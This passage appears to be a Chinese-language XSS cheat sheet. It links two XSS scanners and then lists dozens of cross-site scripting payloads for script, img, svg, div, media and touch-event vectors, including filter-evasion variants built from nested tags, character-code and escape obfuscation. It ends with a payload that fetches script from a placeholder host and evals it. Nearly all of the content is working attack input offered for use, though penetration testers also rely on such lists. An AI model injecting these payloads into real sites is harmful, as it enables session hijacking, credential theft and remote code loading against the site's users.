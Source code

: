   	https://github.com/hahwul/XSpear
  	https://github.com/fcavallarin/domdig
  #### 常见payload
```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // 当手指触摸屏幕时触发
<body ontouchend=alert(1)>   // 当手指从触摸屏上移开时触发
<body ontouchmove=alert(1)>  // 当手指在屏幕上拖动时
```
  #### 远程Js
  	<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>